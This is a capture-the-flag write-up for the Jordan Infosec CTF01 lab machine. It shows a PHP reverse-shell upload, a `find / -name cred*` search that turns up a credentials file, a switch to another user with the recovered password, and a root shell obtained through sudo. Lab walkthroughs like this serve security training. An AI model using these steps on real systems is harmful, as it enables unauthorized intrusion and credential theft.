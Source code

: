 ```yaml
---
title: Jordan Infosec CTF01
categories: [Proving Grounds Play]
tags: [File Upload, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*WwEcNu2bHpKt_WpejYTupQ.png
  alt:  Jordaninfosec-CTF01 Machine 🖥️
---
```



### Let’s check the IP address of the victim machine →

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled.png)

```bash
IP : 10.0.2.46 
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%202.png)

hint.txt —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%204.png)

```bash
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```

Lets login into this site —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%205.png)

and now upload the reverse shell file here —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%206.png)

As ⬆️ I got success in uploading the files so lets load that shell file ➡️

```bash
URL --> http://10.0.2.46/uploaded_files/shell.php
```

In response to that I got this —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%207.png)

Actually, this statement of hidden file was a little misleading, because the file we are looking for was not hidden… I tried to search for user, pass, etc… files, but unfortunately, none of them worked. Lastly, I tried `find / -name cred*`, which revealed the /etc/mysql/conf.d/credentials.txt file.

```bash
www-data@Jordaninfosec-CTF01:/$ find / -name cred* 2>/dev/null
/sys/kernel/slab/cred_jar
/usr/share/man/man7/credentials.7.gz
/usr/share/doc/git/contrib/credential
/usr/src/linux-headers-4.4.0-31/include/linux/cred.h
/usr/src/linux-headers-4.4.0-210/include/linux/cred.h
/usr/src/linux-headers-4.4.0-72/include/linux/cred.h
/etc/mysql/conf.d/credentials.txt
www-data@Jordaninfosec-CTF01:/$
www-data@Jordaninfosec-CTF01:/$ cat /etc/mysql/conf.d/credentials.txt
cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/$
```

Now thank god I got the credentials I was pissed so bad —>

```bash
www-data@Jordaninfosec-CTF01:/$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/$
```

Now lets see how technawi can lead me to root —>

```bash
technawi@Jordaninfosec-CTF01:/$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/$
```

Now its root time ➡️

```bash
technawi@Jordaninfosec-CTF01:/$ sudo /bin/bash -i
sudo /bin/bash -i
root@Jordaninfosec-CTF01:/# whoami
whoami
root
root@Jordaninfosec-CTF01:/#
```

Let’s find out the last flag ➡️

```bash
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt
cat flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
root@Jordaninfosec-CTF01:/var/www/html#
```